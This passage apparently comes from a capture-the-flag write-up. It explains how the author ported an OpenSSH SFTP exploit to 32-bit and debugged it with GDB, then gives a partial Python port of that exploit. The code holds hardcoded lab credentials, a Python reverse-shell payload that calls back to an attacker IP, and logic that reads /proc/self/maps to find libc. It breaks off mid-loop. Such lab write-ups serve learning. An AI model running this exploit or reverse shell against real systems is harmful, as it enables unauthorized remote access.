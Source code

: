 As you can see it's mostly just changing references of `long long` to `int` and changing format strings.  We also change the calling conventions and any 64 bit functions to their 32-bit equivalents.

As a test, run it on a local VM too, to ensure you're running it correctly.  I found it was best to insert a break in the sshsploit script, right before the payload is launched if I needed to debug.  This can be achieved with a simple inline `getchar();`.  Then find the process ID on your remote VM and attach a GDB instance to it. The command for this is `attach PID`. 

### Bonus: Python Port

![](https://imgs.xkcd.com/comics/real_programmers.png)

If you want to test it on a machine you own and have permission to attack, all you need to modify are the parameters at the head of the file.
```python
"""
A Python port of https://github.com/0x90/openssh-sftp-sploit
Tested on:
    OpenSSH 6.5 x86
    OpenSSH 6.5 x64
Written by Booj (@reboare)
"""

from tempfile import SpooledTemporaryFile
from pwn import *
import paramiko

context.arch = 'amd64' #i386/amd64

# Parameters for login and the payload you want to send

host = "10.10.10.66"
port = 2222
username = "ftpuser"
password = "@whereyougo?"


lhost = "10.10.15.174"
lport = 443
payload = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);\
s.connect((\"{0}\",{1}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);\
p=subprocess.call([\"/bin/sh\",\"-i\"]);'\x00".format(lhost, lport)

try:
    transport = paramiko.Transport((host,port))
    transport.connect(username=username, password=password)
    sftp = paramiko.SFTPClient.from_transport(transport)
    log.success("Connected!")
    
    p = log.progress("Fetching /proc/self/maps")
    maps = sftp.get('/proc/self/maps', '/tmp/maps')
    p.success('Downloaded /proc/self/maps!')

    with open('/tmp/maps') as maps:
        maps = maps.read()

    log.debug(maps)
    for line in maps.split('\n'):
        if 'r-xp' in line and '/libc-' in line:
            # Get libc information
            _libc_split = line.split(' ')
            _libc_range, libc_path = _libc_split[0], _libc_split[-1]
            libc_start, libc_end = _libc_range.split('-')
```